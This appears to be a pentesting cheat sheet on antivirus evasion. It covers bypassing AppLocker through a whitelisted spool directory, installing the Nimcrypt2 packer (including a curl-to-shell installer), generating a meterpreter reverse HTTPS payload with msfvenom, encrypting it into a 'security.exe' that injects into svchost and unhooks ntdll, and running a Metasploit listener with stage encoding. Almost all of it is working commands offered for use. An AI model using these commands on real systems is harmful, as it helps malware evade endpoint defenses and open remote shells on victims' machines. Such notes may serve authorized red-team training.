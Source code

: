 # Anti-Virus Evasion

## Applocker

* AppLocker is an application whitelisting technology introduced with Windows 7.
* It allows restricting which programs users can execute based on the programs path, publisher and hash.
* If AppLocker is configured with default AppLocker rules, we can bypass it by placing our executable in the following directory:

```
C:\Windows\System32\spool\drivers\color
```

* This is whitelisted by default.&#x20;

### Nimcrypt2

#### Help Menu&#x20;

```
Usage:
  nimcrypt -f file_to_load -t csharp/raw/pe [-o <output>] [-p <process>] [-n] [-u] [-s] [-e] [-g] [-l] [-v] [--no-ppid-spoof]
  nimcrypt (-h | --help)

Options:
  -h --help     Show this screen.
  --version     Show version.
  -f --file filename     File to load
  -t --type filetype     Type of file (csharp, raw, or pe)
  -p --process process   Name of process for shellcode injection
  -o --output filename   Filename for compiled exe
  -u --unhook            Unhook ntdll.dll
  -v --verbose           Enable verbose messages during execution
  -e --encrypt-strings   Encrypt strings using the strenc module
  -g --get-syscallstub   Use GetSyscallStub instead of NimlineWhispers2
  -l --llvm-obfuscator   Use Obfuscator-LLVM to compile binary
  -n --no-randomization  Disable syscall name randomization
  -s --no-sandbox        Disable sandbox checks
  --no-ppid-spoof        Disable PPID Spoofing
```

#### Installation&#x20;

```
git clone https://github.com/icyguider/Nimcrypt2.git
sudo apt install gcc mingw-w64 xz-utils git
curl https://nim-lang.org/choosenim/init.sh -sSf | sh
echo "export PATH=$HOME/.nimble/bin:$PATH" >> ~/.bashrc
export PATH=$HOME/.nimble/bin:$PATH
nimble install winim nimcrypto docopt ptr_math strenc
cd /opt/Nimcrypt2
nim c -d=release --cc:gcc --embedsrc=on --hints=on --app=console --cpu=amd64 --out=nimcrypt nimcrypt.nim
```

* Nimcrypt2 is a fantastic option for obfuscating your binaries, works with sliver, msf, and more
* generate your payload

#### Metasploit with Nimcrypt&#x20;

```
//Payload Generation 
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.15.45 LPORT=443 --encoder x86/shikata_ga_nai -i 3 -f exe -o start.exe
```

* Now encrypt it with nimcrypt2

```
./nimcrypt -f start.exe -t pe -o security.exe -p svchost -e -u
```

### Metasploit Listener Obsfucation&#x20;

```
msfconsole -q
use exploit/multi/handler
set LHOST 10.10.15.45
set LPORT 443
set payload windows/x64/meterpreter/reverse_tcp
set EXITFUNC thread
set autoloadstdapi false
set autosysteminfo false
set enablestageencoding true
set stageencoder x64/xor_dynamic
run -j
```

